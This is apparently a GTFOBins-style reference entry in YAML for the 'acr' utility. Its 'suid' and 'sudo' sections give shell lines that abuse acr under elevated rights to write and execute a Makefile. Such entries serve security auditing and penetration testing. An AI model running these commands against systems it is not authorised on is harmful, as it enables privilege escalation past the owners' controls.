 ```yaml
---
functions:
  suid:
    - code: |
        sudo install acr $(which acr) .
        touch Makefile && chmod +x Makefile
        echo DATA > Makefile
        ./acr -r Makefile
  sudo:
    - code: |
        sudo install acr $(which acr) .
        touch Makefile && chmod +x Makefile
        echo DATA > Makefile
        sudo acr -r Makefile
---
```


